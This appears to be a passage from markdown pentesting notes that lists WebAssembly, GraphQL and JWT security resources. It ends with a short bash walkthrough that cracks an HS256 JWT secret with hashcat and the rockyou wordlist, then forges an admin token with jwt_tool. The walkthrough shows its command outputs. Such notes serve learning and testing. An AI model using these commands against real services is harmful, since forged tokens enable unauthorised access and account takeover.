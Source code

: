 - C/C++: Emscripten: [Main — Emscripten 3.1.49-git (dev) documentation](https://emscripten.org/)
- Rust wasm-pack: [wasm-pack](https://rustwasm.github.io/wasm-pack/)

> Use the compiled WebAssembly…
>
> - [from JavaScript code](https://developer.mozilla.org/en-US/docs/WebAssembly/Loading_and_running)
> - [as a CLI application](https://github.com/bytecodealliance/wasmtime/blob/main/docs/WASI-tutorial.md)
> - [from Node.js (with access to system resources)](https://nodejs.org/api/wasi.html)

### Web API

- [APIsec University – Become an API Security Expert](https://www.apisecuniversity.com/#courses)

### GraphQL

- [GraphQL](https://graphql.org/)
- [How to GraphQL - The Fullstack Tutorial for GraphQL](https://www.howtographql.com/)
- [GraphQL - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html)
- [awesome-graphql](https://github.com/chentsulin/awesome-graphql)
- [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap) - a scripting engine to interact with a graphql endpoint for pentesting purposes

### Json Web Token (JWT)

- [JWT Vulnerabilities (Json Web Tokens) - HackTricks](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
- [JWT - JSON Web Token - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/JSON%20Web%20Token/)
- [jwt_tool](https://github.com/ticarpi/jwt_tool)
  - [jwt_tool Wiki](https://github.com/ticarpi/jwt_tool/wiki)
- [JSON Web Tokens - jwt.io](https://jwt.io/)
- [Hacking JWT Tokens: jku Claim Misuse | by Shivam Bathla | Pentester Academy Blog](https://blog.pentesteracademy.com/hacking-jwt-tokens-jku-claim-misuse-2e732109ac1c)
- [Bug bounty isn’t dying. It’s the future. · rez0](https://rez0.blog/hacking/cybersecurity/2021/01/10/bug-bounty-isnt-dying.html)

#### Cracking with hashcat

```bash
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
python3 ~/tools/jwt_tool/jwt_tool.py $JWT
# check: alg = "HS256"

hashcat -m 16500 $JWT /usr/share/wordlists/rockyou.txt --quiet
# output => eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I:catsarethebest

python3 ~/tools/jwt_tool/jwt_tool.py $JWT -I -pc identity -pv admin --sign hs256 -p catsarethebest
# output: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImFkbWluIn0.3xH8a2FskQJ3afYZeJCtwln4CRrwh4nidEy7S6fJoA0
```
